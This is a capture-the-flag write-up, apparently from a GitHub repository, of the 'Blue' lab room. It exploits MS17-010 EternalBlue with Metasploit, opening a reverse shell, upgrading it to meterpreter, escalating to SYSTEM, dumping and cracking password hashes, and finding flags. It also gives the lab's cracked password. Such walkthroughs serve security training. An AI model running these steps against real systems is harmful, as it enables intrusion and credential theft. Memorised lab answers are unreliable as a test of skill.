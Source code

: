 # Blue
**Summary of Blue room:** Exploitation of Windows machine using MS17-010 Eternal Blue Exploit

## Recon phase
The room starts off with the recon phase where we need to gain information and the vulnerabilities which the targeted machine is vulnerable towards. 

The first question asks for the number of ports which are open with a port number of less than 1000. To find the answer, we use the following Nmap command to scan for available ports

![image](https://github.com/user-attachments/assets/fa197e7a-a273-4d6c-9e30-fd22d4fac375)

Next, the question prompts us to identify the vulnerability which the targeted machine is exposed to. To solve this question, we use the following nmap command, `nmap -sV --script vuln -v` followed by the ip address of the virtual machine.

**Nmap command breakdown:**
- `-sV` This scans for the versions of discovered services.
- `--script` Scripting Engine.
- `vuln` Investigate vulnerabilities or exploit vulnerable services.

![image](https://github.com/user-attachments/assets/de67172c-079c-4a00-b834-acaaa2fc7555)

The scan revealed that the targeted machine is vulnerable to the MS17-010 eternal blue vulnerability which exploits the Microsoft SMBv1 servers

![image](https://github.com/user-attachments/assets/37a4416c-0196-4fb7-8042-bdfc99e7a14c)

## Gaining access
The next step is to obtain access towards the targeted machine through the vulnerability found earlier on. This can be done by using Metasploit.

Firstly, we need to start metasploit by using the command, `msfconsole`

![image](https://github.com/user-attachments/assets/a98d03ce-7773-4360-af5a-ea5643ad8533)

Once metasploit is started, we shall search for the exploitation code we will run against the machine by using the command `search MS17-010` This will search all possible results containing MS17-010 vulnerability.

As the question requests for the full path code of the exploit which we will be using to exploit the targeted machine, it is `exploit/windows/smb/ms17_010_eternalblue`

![image](https://github.com/user-attachments/assets/f223a483-ba80-4545-ae65-12ecf0518a62)

Once we have identified the path code to be used to exploit the targeted machine, we need to select the option to utilize it by using the command `use` followed by the option number. In this case, the option we require is numbered 0 so we shall type `use 0`

![image](https://github.com/user-attachments/assets/36ca5e3f-031f-43a8-adb8-f62c8045ce54)

Moving on, we need to set few options to ensure that the exploit is targeted towards the required machine. The command `show options` lists down all the options which can be configured for the exploit.

![image](https://github.com/user-attachments/assets/410465e1-543f-437e-adc9-3717d97ef6cc)

Since the exploit only works with a targeted machine, we need to setup the required targeted machine to be exploited. This can be done by setting the `RHOSTS` option. To set the `RHOSTS` option, we will use the command, set RHOSTS followed by the targeted machine's ip address. In this case, it would be `set RHOSTS 10.10.16.35`

Once the targeted machine's ip address has been set, we can type in `show options` to ensure that the ip address is set correctly. The diagram below shows that the targeted machine's ip address has been set correctly, which is 10.10.16.35

![image](https://github.com/user-attachments/assets/834bc0bd-fe22-453b-b141-9e01541d361c)

Before running the exploit, we also need to change the payload option by using the command, `set payload windows/x64/shell/reverse_tcp`

![image](https://github.com/user-attachments/assets/73356649-69cb-40e8-9172-8fbee15903bd)

Once everything is setup correctly, we shall run the exploit towards the targeted machine by using the command, `exploit`

![image](https://github.com/user-attachments/assets/32354d66-8e1b-4b8a-acaf-0bd4dde5c53d)

A shell will be granted if the exploit is successful as shown below:

![image](https://github.com/user-attachments/assets/3603c027-5f7c-4016-b606-545d9ccb3f8e)

## Escalate phase
Once we have obtained access to the targeted machine, we shall escalate priviledges to gain further access to the system.

Background the shell

![image](https://github.com/user-attachments/assets/2c9a4fc8-a76b-402f-bf78-196187d658d8)

The question states that to perform more features on the targeted machine, we need to convert the shell to meterpreter shell in metasploit. We can do this by using the following command `post/multi/manage/shell_to_meterpreter`

![image](https://github.com/user-attachments/assets/70342ff5-baa1-44cf-af27-ad4f1135e982)

use the path code and set the required options. 

![image](https://github.com/user-attachments/assets/092ad107-154d-4bdd-9c51-dcda4e5ceb95)

In this case, the shell which needs to be converted to meterpreter session has a session id of 1. Hence the session is set to 1 using the command, `set session 1`

![image](https://github.com/user-attachments/assets/0a0efb6d-edb2-4db1-9872-7f52bf3ec614)

Once the session is set, we can use the command `show options` to check if the session is set correctly

![image](https://github.com/user-attachments/assets/6a0e09d2-aa96-4a7c-9dce-1c8715bb3c1e)

Once the session is set correctly, we can then run the tool to convert the shell to meterpreter shell 

![image](https://github.com/user-attachments/assets/97feb3f5-1a59-4175-9dfb-acf044d7df47)

Upon entering the command 'sessions', we can see that a meterpreter shell has been successful established with a session id of 2

![image](https://github.com/user-attachments/assets/8bf03eff-8048-4f6d-a27e-fa580c44679a)

We can then use the meterpreter shell for further exploitation of the target machine by using the command `sessions` followed by the session id. In this case, we need to enter `sessions 2`

![image](https://github.com/user-attachments/assets/c2a9a798-3b49-4ffc-b403-cbfad84f2661)

Once we are in the meterpreter shell, we can the following command, `getsystem` to verify that we have escalated to NT AUTHORITY\SYSTEM.

![image](https://github.com/user-attachments/assets/80389fe7-4ef8-435a-845a-a1397c9abb7b)


![image](https://github.com/user-attachments/assets/8a7c2c26-c05a-40be-bfb5-9f7e0b44eedd)


## Cracking phase
The room proceeds with the cracking phase where we are required to crack some password hashes 

We can start off by using the command `hashdump` to obtain the hashes of all user profiles in the target device

![image](https://github.com/user-attachments/assets/b7a1f946-2d94-402e-aa77-95e7b837f87e)

Since the question requires us to crack the password for the non-default user, which is Jon, we shall copy jon's user profile hash to a text file using nano text editior. The text file shall be named hash.txt.

![image](https://github.com/user-attachments/assets/005dfd78-d54e-4ef8-b034-751eca1c8b23)

Once we have copied the hash to the text file, we shall use john the ripper to crack the hash by comparing the hash of hash.txt to a wordlist file named rockyou.txt. If one of the passwords in the rockyou.txt file have an identical hash as the hash in the hash.txt file upon conversion, it would be the password.

![image](https://github.com/user-attachments/assets/5d27a3fc-8e1c-4e69-a295-fe51da1210b7)

In this case, john the ripper managed to find an identical hash in the rockyou.txt file which is **alqfna22**

![image](https://github.com/user-attachments/assets/cea864c7-7465-4bd3-8750-d861d577f165)

## Finding flags
### Flag 1
Based on the question, it is stated that flag 1 can be found at the system root, which is C:

![image](https://github.com/user-attachments/assets/8295c184-c850-46ca-b423-1c578cadcfc2)

### Flag 2
Based on the question, it is stated that flag 2 can be found at the location where passwords are stored within Windows. Since lsass.exe is stored in the C:\Windows\system32 which manages user credentials, we can assume flag2.txt is placed somewhere in system32 directory.

We can then use the search command to look for the file

![image](https://github.com/user-attachments/assets/5982d8b7-1e4d-4346-a8b4-47550a6d9e6b)

Once we have identified the exact location of the file, we can then navigate to the exact path to obtain the flag

![image](https://github.com/user-attachments/assets/db5c3f59-414d-4740-8b97-46fc5a9477f9)


### Flag 3
Based on the question, flag 3 can be found in the location where things are usually stored by the adminstrator. In this case, it would be the user directory. 

Once we are in the Users directory, we can examine the Documents directory for the text file containing the flag, flag3.txt

![image](https://github.com/user-attachments/assets/dfbda33f-2493-457e-882c-a0ba52de167c)
